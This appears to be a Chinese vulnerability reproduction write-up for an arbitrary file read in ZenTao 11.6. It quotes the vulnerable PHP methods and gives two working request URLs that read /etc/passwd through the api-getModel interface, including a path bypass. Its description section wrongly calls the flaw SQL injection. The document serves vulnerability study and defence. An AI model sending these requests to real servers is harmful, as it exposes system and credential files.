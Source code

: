 # 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](../../../.vuepress/public/img/zentao-1-20220313232358249.png)



## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

### 第一种方法

查看`module/file/moudel.php`下的`parseCSV方法`

```php
public function parseCSV($fileName)
    {
        $content = file_get_contents($fileName);
        /* Fix bug #890. */
        $content = str_replace("\x82\x32", "\x10", $content);
        $lines   = explode("\n", $content);

        $col  = -1;
        $row  = 0;
        $data = array();
        foreach($lines as $line)
        {
            $line    = trim($line);
            $markNum = substr_count($line, '"') - substr_count($line, '\"');
            if(substr($line, -1) != ',' and (($markNum % 2 == 1 and $col != -1) or ($markNum % 2 == 0 and substr($line, -2) != ',"' and $col == -1))) $line .= ',';
            $line = str_replace(',"",', ',,', $line);
            $line = str_replace(',"",', ',,', $line);
            $line = preg_replace_callback('/(\"{2,})(\,+)/U', array($this, 'removeInterference'), $line);
            $line = str_replace('""', '"', $line);

            /* if only one column then line is the data. */
            if(strpos($line, ',') === false and $col == -1)
            {
                $data[$row][0] = trim($line, '"');
            }
            else
            {
                /* if col is not -1, then the data of column is not end. */
                if($col != -1)
                {
                    $pos = strpos($line, '",');
                    if($pos === false)
                    {
                        $data[$row][$col] .= "\n" . $line;
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                        continue;
                    }
                    else
                    {
                        $data[$row][$col] .= "\n" . substr($line, 0, $pos);
                        $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                        $line = substr($line, $pos + 2);
                        $col++;
                    }
                }

                if($col == -1) $col = 0;
                /* explode cols with delimiter. */
                while($line)
                {
                    /* the cell has '"', the delimiter is '",'. */
                    if($line{0} == '"')
                    {
                        $pos  = strpos($line, '",');
                        if($pos === false)
                        {
                            $data[$row][$col] = substr($line, 1);
                            /* if line is not empty, then the data of cell is not end. */
                            if(strlen($line) >= 1) continue 2;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 1, $pos - 1);
                            $line = substr($line, $pos + 2);
                        }
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                    }
                    else
                    {
                        /* the delimiter default is ','. */
                        $pos = strpos($line, ',');
                        /* if line is not delimiter, then line is the data of cell. */
                        if($pos === false)
                        {
                            $data[$row][$col] = $line;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 0, $pos);
                            $line = substr($line, $pos + 1);
                        }
                    }

                    $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                    $col++;
                }
            }
            $row ++;
            $col = -1;
        }

        return $data;
    }
```



这里可以看到`以file为模块名、parseCSV为方法名去调用`读取文件



读取的文件名`$filename`参数可控，例如读取`/etc/passwd`



```plain
http://xxx.xxx.xxx.xxx/api-getModel-file-parseCSV-fileName=/etc/passwd
```



![img](../../../.vuepress/public/img/zentao-22.png)



- ✅注意以 .php .txt 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤

### 第二种方法



查看`module/api/moudel.php`下的`getMethod方法`



```php
public function getMethod($filePath, $ext = '')
{
    $fileName  = dirname($filePath);
    $className = basename(dirname(dirname($filePath)));
    if(!class_exists($className)) helper::import($fileName);
    $methodName = basename($filePath);

    $method = new ReflectionMethod($className . $ext, $methodName);
    $data   = new stdClass();
    $data->startLine  = $method->getStartLine();
    $data->endLine    = $method->getEndLine();
    $data->comment    = $method->getDocComment();
    $data->parameters = $method->getParameters();
    $data->className  = $className;
    $data->methodName = $methodName;
    $data->fileName   = $fileName;
    $data->post       = false;

    $file = file($fileName);
    for($i = $data->startLine - 1; $i <= $data->endLine; $i++)
    {
        if(strpos($file[$i], '$this->post') or strpos($file[$i], 'fixer::input') or strpos($file[$i], '$_POST'))
        {
            $data->post = true; 
        }
    }
    return $data;
}
```



这里与第一种大同小异，只是调用了不同模块的方法



看到 fileName  = dirname(filepath) 这段则为返回的目录名



所以读取`/etc/passwd`则需要写为`/etc/passwd/1`来绕过



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```



![img](../../../.vuepress/public/img/zentao-23.png)



